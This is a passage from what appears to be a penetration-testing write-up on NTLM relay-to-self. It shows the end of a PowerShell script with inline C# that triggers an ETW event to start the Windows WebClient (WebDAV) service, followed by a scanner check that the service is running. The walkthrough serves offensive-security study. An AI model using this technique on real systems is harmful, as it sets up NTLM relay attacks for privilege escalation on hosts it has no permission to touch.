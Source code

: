 ```powershell
[FieldOffset(12)]
internal int Reserved;
}

public static void startService(){
Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);

long handle = 0;
uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);

bool success = false;

if (output == 0){
EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
unsafe
{
uint writeOutput = EventWrite(handle, ref desc, 0, null);
success = writeOutput == 0;
EventUnregister(handle);
}
}
}

[DllImport("Advapi32.dll", SetLastError = true)]
public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);

[DllImport("Advapi32.dll", SetLastError = true)]
public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);

[DllImport("Advapi32.dll", SetLastError = true)]
public static extern uint EventUnregister(long RegHandle);
}
}
"@
$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()
```

To start webdav run the PowerShell script:

```bash
PS C:\Users\incendium\Documents> .\startwebdav.ps1
```

If we run webclientservicescanner again we can see it is running:

![](/assets/img/posts/ntlmrelay2self/4.png)
